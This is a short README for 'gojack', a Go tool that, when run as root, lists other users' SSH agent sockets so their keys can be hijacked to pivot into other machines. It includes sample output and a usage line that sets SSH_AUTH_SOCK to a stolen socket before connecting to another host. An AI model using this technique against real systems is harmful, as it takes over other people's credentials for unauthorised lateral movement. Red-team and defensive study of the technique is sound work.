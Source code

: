 # gojack

Gojack is an application designed to seek out and print valid SSH Sockets to STDOUT. The idea being if you are root on a machine and you are looking to pivot, you can run this to determine if anyone logs in with an SSH Auth Socket, hijack their key, and use it to log into another machine.

 I wrote this as a way of learning how to better wrangle Golang. I've written it before in python, and since Go is infinitely faster I figured I would attempt the same thing here. I can't promise it's the best code, but it works.

 ## Installation

 To build, assuming you have golang installed, clone and run:

`go build`

## Usage

To use, run as root simply by calling the binary. It will display something like:

```bash
Found Agent: /tmp/ssh-fyomdLym3tHP/agent.2517
Found Agent: /tmp/ssh-agQIibf7vXO5/agent.14319
Found Agent: /tmp/ssh-KlTHZtGCmMze/agent.4024
Found Agent: /tmp/ssh-waA7USbmfXXF/agent.13859
Found Agent: /tmp/ssh-jYUQQwGKeHpW/agent.3809
Found Agent: /tmp/ssh-UawaUiYtrtRu/agent.10883
Found Agent: /tmp/ssh-Bdf1CxXtBqpx/agent.4978
Found Agent: /tmp/ssh-9fv27rLlJN2x/agent.5014
Found Agent: /tmp/ssh-IF5D3P2fYNwp/agent.8556
Found Agent: /tmp/ssh-DDoGHcFXdsKS/agent.11278
...
```

Choose any one of the above and enter the following to attempt to SSH into another machine:

`SSH_AUTH_SOCK=/tmp/ssh-UawaUiYtrtRu/agent.10883 ssh user@somehost`